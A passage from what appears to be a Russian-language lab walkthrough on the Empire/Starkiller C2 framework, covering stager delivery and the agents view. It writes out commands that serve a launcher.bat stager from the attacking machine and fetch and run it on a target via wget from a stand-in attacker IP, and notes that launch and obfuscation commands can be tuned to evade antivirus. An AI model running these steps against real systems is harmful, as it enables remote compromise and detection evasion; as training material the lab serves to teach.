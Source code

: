 Передача и выполнение Stager
Атакующая машина:

Существует множество способов отправки Stager на целевую машину, включая SCP, фишинг и вредоносные 
программы-дропперы; в этом примере мы будем использовать базовый сервер python3 и wget для передачи Stager. 

1. `python3 -m http.server`

Целевая машина:
1. `wget TUN0_IP:8000/launcher.bat -outfile launcher.bat`
2. `)./launcher.bat`

Ниже показано, как будет выглядеть полезная нагрузка PowerShell multi/launcher с powershell -noP -sta -w 1 -enc 
launcher, который мы предоставили при создании слушателя. Launcher возьмет закодированную полезную нагрузку и 
декодирует ее, а затем запустит ее, в этом случае полезная нагрузка все равно будет обнаружена AV , однако вы можете 
настроить команды запуска и обфускации, чтобы обойти AV или другие обнаружения.   

После выполнения стейджера, если вы правильно настроили и стейджер, и прослушиватель, то агент выполнит проверку на 
вкладке агентов. 

### Ответьте на вопросы ниже
Прочитайте вышеизложенное и создайте базовый multi/launcher stager, используя HTTP-прослушиватель, созданный вами в 
Задании 5. 
```commandline
Ответ не нужен
```
Запустите Stager на устройстве, которое вы развернули в Задаче 2. 

```commandline
Ответ не нужен
```

## Задание 7
Обзор агентов

Агенты используются в Starkiller аналогично тому, как вы взаимодействуете с обычной оболочкой или терминалом. Вы 
можете запускать команды оболочки, а также модули, которые поставляются предварительно упакованными с Empire. В 
отличие от обычной оболочки, с любым сервером C2, как только у вас есть агент, подключенный обратно к серверу C2, вы 
можете использовать любые модули и не активировать AV или другие обнаружения, поскольку они запускаются удаленно. 
Все агенты имеют одинаковую функциональность и доступные модули, стейджер и слушатель определяют только то, как 
агент отправляется на устройство и как он подключается обратно.     

Агенты имеют цветовую кодировку и используют значки, чтобы помочь отличить статус агента. Ниже приведена схема 
цветов и значков 
